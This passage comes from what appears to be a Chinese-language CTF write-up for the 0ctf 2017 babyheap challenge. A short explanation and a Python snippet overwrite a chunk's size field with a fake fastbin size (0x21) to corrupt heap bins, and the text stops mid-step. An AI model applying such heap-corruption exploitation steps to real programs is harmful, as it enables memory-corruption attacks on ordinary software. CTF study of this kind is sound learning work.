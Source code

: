 ![image-20240701230401429](0ctf_2017_babyheap\images\image-20240701230401429.png)

所以我们要覆盖chunk4的size为fastbin的大小
然后两次alloc就可以把small_chunk放入fastbin中了

```py
payload = p64(0)*3 + p64(0x21)
fill(3,payload)
alloc(0x10)
alloc(0x10)
```

chunk4被修改为了fastbin: